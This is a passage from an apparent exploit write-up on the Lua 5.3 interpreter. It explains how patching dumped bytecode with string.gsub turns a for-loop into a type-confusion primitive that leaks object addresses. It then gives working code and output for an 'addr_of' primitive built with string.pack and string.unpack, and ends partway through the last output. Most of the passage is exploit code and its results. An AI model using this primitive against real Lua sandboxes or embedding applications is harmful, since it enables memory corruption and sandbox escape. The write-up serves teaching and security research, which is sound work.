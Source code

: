 Essentially, this code is doing the following:

- If the loop is an integer loop (e.g. the TValue step has an integer type),
  the function is computing the updates and checks inline (but we don't really
  care as it's not our case).
- If instead (as it is our case) the step TValue is not an integer, code goes
  the *floatforloop* function, which handles updates and checks needed in a for loop.
- In particular, the function computes the increment of the index and **checks
  whether the incremented index is smaller than the limit**. In that case, the
  index will be updated and the for loop continues -- this is what we want!

In brief, to make things work, we need to make sure that, once incremented
with the address of the target TValue *x*, the index is not greater than the limit
(the number 1000000000000, in our code).

There's a simple path to solve this problem: **by using the variable x as
the limit itself, we are sure that the loop will continue to the return statement.**

The leak experiment thus becomes:

```lua
# Code
asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

foo = function() print(1) end
print("foo:", foo)

print("leak:",asnum(foo))

# Output
foo:	LClosure: 0x10a0b0
leak:	2.3107345851353e-308
```

Looks like we are getting somewhere.

However, the clever will notice that the address of the function and the
printed leaks are not the same thing. This is well explained in the original blogpost:
lua thinks that the returned address is a double, thus the IEEE 754 representation
is used for the number.

In the blogpost, the author embarks on a riveting quest to natively transform
this double in the integer binary representation needed to complete the `addrof`
primitive.

<u>We don't need this.</u> In fact, since Lua 5.3, the interpreter supports
integer types!

This makes completing the `addrof` primitive a breeze,
by resorting to the native `string.pack` and `string.unpack` functions:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\x00\x00", "\x38\x00\x00\x80"))

function addr_of(variable)
  return string.unpack("L", string.pack("d", asnum(variable)))
end

foo = function() print(1) end
print("foo:", foo)

print(string.format("leak: 0x%2x",addr_of(foo)))
# Output
foo:	LClosure: 0x10a0e8
```